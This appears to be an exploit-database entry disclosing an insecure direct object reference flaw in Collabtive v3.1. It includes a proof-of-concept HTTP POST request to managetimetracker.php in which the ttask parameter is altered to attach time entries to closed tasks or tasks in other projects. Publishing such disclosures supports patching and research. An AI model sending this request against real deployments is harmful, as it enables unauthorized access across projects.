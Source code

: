 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to cite the task that is closed or belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /managetimetracker.php?action=add HTTP/1.1
...

&project=1&ttday=05.01.2024&started=08%3A00&ended=09%3A00&project=1&=&=&=&=&=&=&=&=&=&=&=&=&comment=AAAA&ttask=4(CHANGE HERE)&=
```